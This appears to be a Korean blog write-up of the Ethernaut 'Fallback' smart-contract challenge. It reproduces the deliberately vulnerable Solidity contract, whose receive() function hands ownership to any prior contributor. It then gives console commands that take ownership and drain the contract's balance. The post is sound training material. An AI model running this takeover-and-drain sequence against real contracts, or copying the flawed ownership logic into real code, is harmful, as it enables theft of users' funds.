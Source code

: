 ```yaml
---
emoji: 🧢
title: (Ethernauts 취약점 공부) 1. Fallback 
date: '2021-12-22 18:31:00'
author: 한성원
tags: ethernauts fallback vulnerability
categories: 취약점분석
---
```



# 👋 1. Fallback
직접 푼 Ethernauts 풀이를 적어보려고 한다. 취약점에 공부했던 취약점을 실제로 공격해보며 복습 및 실습을 해볼수 있어 좋은 것 같다.

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- contract의 ownership을 뺐어오기
- contract의 balance를 0으로 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

    using SafeMath for uint256;

    // 각각의 address당 ether 기여도(contribution)
    mapping(address => uint) public contributions;

    // Fallback Contract의 owner address
    address payable public owner;

    //constructor
    constructor() public {
        // Deployer를 owner로 설정
        owner = msg.sender;

        // Deployer의 기여도를 1000 ether로 설정
        contributions[msg.sender] = 1000 * (1 ether);
    }

    //Owner만 사용할 수 있게하는 modifier
    modifier onlyOwner {
            // msg.sender가 owner인지 아닌지 확인
            require(
                msg.sender == owner,
                "caller is not the owner"
            );
            _;
        }

    //contract의 기여도를 올릴 수 있는 function이다.
    //payable로 선언되어 ether를 전송하고 받을 수 있다.
    function contribute() public payable {
        //msg.sender가 보낸 ether의 양이 0.001 이하인지 확인
        require(msg.value < 0.001 ether);

        //msg.sender의 기여도(contributions)를 msg.value만큼 올린다.
        contributions[msg.sender] += msg.value;

        //만약 msg.sender의 contributions가 owner의 contributions보다 크다면 ownership이 transfer된다.
        //초기에 owner의 contributions은 1000 ether이기 때문에 ownership을 바꾸기 위해서는 1000 ether이상의 기여해야한다.
        if(contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
        }
    }

    //기여도를 확인할 수 있는 view function
    function getContribution() public view returns (uint) {
        //msg.sender의 기여도를 return 한다.
        return contributions[msg.sender];
    }

    //contract가 가지고 있는 모든 balance(ether)를 owner에게 전송한다.
    function withdraw() public onlyOwner {
        owner.transfer(address(this).balance);
    }

    //payable로 선언되어 ether를 전송하고 받을 수 있다.
    //receive function
    receive() external payable {
        //msg.sender의 msg.value가 0보다 크고 기여도(contributions)가 0보다 큰지 확인한다
        require(msg.value > 0 && contributions[msg.sender] > 0);

        //owner를 msg.sender로 바꾼다.
        owner = msg.sender;
    }
}
```

- - -

## 풀이
우리는 2가지의 문제를 풀어야 한다.
1. contract의 ownership을 뺐어오기
2. contract의 balance를 0으로 만들기

차례차례 풀어보겠다.
코드를 봤을 떄 contract의 ownership을 가져올 수 있는 방법은 2가지가 있다.
- contribute()
- receive()

1. contribute()를 이용해 owner가 되려면 초기 owner의 contributions 1000 ether보다 더 큰 돈을 contract로 보내야 한다.
2. 하지만 contribute()의 require을 보면 한번에 0.001 ether이하의 ether만 보낼 수 있게 되어있다. contract에서 의도한대로 owner가 되려면 __1,000,000 + a__ 번 전송해야한다. 
3. 이 방법은 비용도 많이들고 엄청난 시간이 걸리기 때문에 receive 함수를 확인해보자!
4. receive 함수를 보면 msg.value나 0보다 크고 contributions가 0보다 크면 owner를 msg.sender로 바꿀 수 있다.
5. 그렇다면 contribute() 호출해 작은 값을 보내어 contributions를 0을 초과하게 만든다음 receive함수를 호출하면 owner를 가져올 수 있다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
//0.001보다 작은 0.0001을 보낸다.
await contract.contribute.sendTransaction({value:toWei('0.0001')})
//나의 contribution을 확인한다.
fromWei(await contract.getContribution())
//contract의 balance를 확인한다.
await getBalance(instance)
//모두 0.0001과 같을 것이다!

//나의 contribution이 0을 초과했으니 recevice()를 실행 시킬 수 있는 명령어를 실행한다.
contract.sendTransaction({value:toWei('0.0001')})
//contract의 owner address를 확인한다.
await contract.owner()
//나의 address를 확인한다.
player
//play(나)이 owner가 된 것을 확인 할 수 있다.

```
이렇게 ownership을 가져올 수 있었다.   

다음으로 contract의 balance를 0으로 만들기이다. 
contract의 balance를 0을로 만들기는 매우 쉽다!
owner만 call할 수 있는 함수인 withdraw을 call하기만 하면 된다.

```javascript
//withdraw한다.
await contract.withdraw()

//contract의 balance가 0이 된것을 확인한다.
await getBalance(instance)
```

Submit instance를 누르면 다음과 같이 뜨면서 다음 level로 넘어갈 수 있다.


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/

```toc

```